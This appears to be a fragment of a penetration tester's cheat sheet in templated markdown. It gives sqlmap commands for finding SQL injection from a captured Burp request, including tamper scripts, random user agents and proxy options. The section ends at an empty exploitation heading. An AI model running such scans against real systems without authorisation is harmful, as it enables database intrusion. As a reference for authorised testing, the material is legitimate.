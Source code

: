 ```bash
sqlmap -u "{{ target-url https://vulnerable.net/product?id=* }}"
```

### Examples - Discovery

#### First go-to command

My typical first go-to command would be something like this (having a request from burp with a `*` on the injection point):

<smart-tabs variable="proxy" :tabs="{'proxy': 'Proxy', 'no-proxy': 'No proxy'}">
<template v-slot:proxy>

<smart-tabs variable="tamper" :tabs="{'no-tamper': 'No tamper', 'tamper': 'Tamper'}">
<template v-slot:tamper>

```bash
sqlmap -r "{{ req-file vulnerable.req }}" --tamper={{ tamper-file between.py }} --delay={{ request-delay 1 }} --risk={{ sqlmap-risk 1 }} --level={{ sqlmap-level 1 }}  --random-agent --proxy "{{ proxy-url http://127.0.0.1:8080 }}"
```

</template>
<template v-slot:no-tamper>

```bash
sqlmap -r "{{ req-file vulnerable.req }}" --delay={{ request-delay 1 }} --risk={{ sqlmap-risk 1 }} --level={{ sqlmap-level 1 }}  --random-agent --proxy "{{ proxy-url http://127.0.0.1:8080 }}"
```

</template>
</smart-tabs>

</template>
<template v-slot:no-proxy>

<smart-tabs variable="tamper" :tabs="{'no-tamper': 'No tamper', 'tamper': 'Tamper'}">
<template v-slot:tamper>

```bash
sqlmap -r "{{ req-file vulnerable.req }}" --tamper={{ tamper-file between.py }} --delay={{ request-delay 1 }} --risk={{ sqlmap-risk 1 }} --level={{ sqlmap-level 1 }}  --random-agent
```

</template>
<template v-slot:no-tamper>

```bash
sqlmap -r "{{ req-file vulnerable.req }}" --delay={{ request-delay 1 }} --risk={{ sqlmap-risk 1 }} --level={{ sqlmap-level 1 }}  --random-agent
```

</template>
</smart-tabs>

</template>
</smart-tabs>

### Examples - Exploitation
